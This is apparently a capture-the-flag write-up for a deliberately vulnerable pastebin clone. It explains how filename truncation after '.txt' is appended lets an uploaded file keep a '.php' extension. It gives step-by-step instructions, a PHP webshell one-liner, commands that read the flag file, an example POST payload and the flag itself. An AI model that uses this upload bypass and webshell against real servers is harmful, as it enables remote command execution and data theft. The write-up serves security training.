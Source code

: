 # Wastetin

## Flavortext

Pastebin Is Passé - Leave Passébin Behind And Use WasteTin In 2018!!1!

## Description

Shitty clone of pastebin.   
Users can enter text, and enter a filename for the text to be saved under (on the server).  

Flag.txt appears to be locked down, and all filenames have .txt appended to them after submission.  
However, filenames are also truncated to 42 characters in length, _after_ ".txt" has been appended...  

## How2pwn

1. Enter sick webshell into the textarea (eg `<?php system($_GET['cmd']); ?>`)
2. Enter a filename which is at least 38 characters long, and ends in ".php"
3. Submit. Your webshell will be uploaded, and the ".txt" extension is truncated in the backend
4. Navigate to the link in the output. Append ?cmd="cat ../../flag.txt" to the URL  
   (one can deduce the location of flag with ?cmd="find / -name ../../flag.txt")
5. The flag should be displayed on the screen.

**Example payload:**  
`'fuck=<?php system($_GET['cmd']); ?>&shit=qwertyuiopasdfghjklzxcvbnm123456789012.php'`  

# Flag 
FLAG{w3bsh3llz_4_d4yz}


